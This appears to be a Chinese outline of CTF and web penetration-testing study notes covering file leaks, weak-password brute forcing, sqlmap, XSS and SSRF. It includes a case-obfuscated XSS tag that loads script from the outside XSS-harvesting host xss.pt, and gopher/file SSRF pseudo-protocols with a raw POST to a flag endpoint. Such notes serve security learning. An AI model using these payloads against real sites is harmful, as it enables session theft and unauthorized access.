 - Web
  collapsed:: true
	- 信息泄露
		- 文件泄露
			- 目录遍历
				- 使用 [dirsearch](https://github.com/maurosoria/dirsearch) 目录扫描
			- 解析对应泄露的文件常见的有Git，SVN，VIM缓存，.DS_Store 文件，可以用 读取工具
		- 各类编程语言框架info
			- [PHPINFO](https://blog.csdn.net/qq_37450949/article/details/119535420)
			- [1000php](https://github.com/Xyntax/1000php)
				- 1000个PHP代码审计案例 (2016.7以前乌云公开漏洞)
			- [SpringBootVulExploit](https://github.com/LandGrey/SpringBootVulExploit)
	- 密码口令
	  collapsed:: true
		- 弱口令
			- 使用 [[Burpsuite Pro 2022.2.2]]进行爆破
			- 可参考CTFHUB [弱口令](https://writeup.ctfhub.com/Skill/Web/%E5%AF%86%E7%A0%81%E5%8F%A3%E4%BB%A4/f6QQk4oixo5X2ZdsUgC7Wo.html)writeup
		- 默认口令
			- [[常见web系统默认口令总结]]
		-
	- SQL注入
		- 使用 [sqlmap](https://github.com/sqlmapproject/sqlmap/blob/master/doc/translations/README-zh-CN.md)
	- XSS
	  collapsed:: true
		- 反射
			- 测试
				- ``` js
				  				  <script>alert(1)</script>
				  ```
			- Xss 平台 [xss.pt](https://xss.pt/xss.php)
				- 获得Xss代码
				- ``` js
				  				  <sCRiPt sRC=//xss.pt/kwX9></sCrIpT>
				  ```
	- SSRF
	  collapsed:: true
		- URL伪协议有如下这些：
			- file:///
			- dict://
			- sftp://
			- ldap://
			- tftp://
			- gopher://
				- ```post
				  POST /flag.php HTTP/1.1
				  Host: 127.0.0.1:80
				  Content-Length: 36
				  Content-Type: application/x-www-form-urlencoded
				  
				  key=ba1ece4536809bb43a56d286d059bd18
				  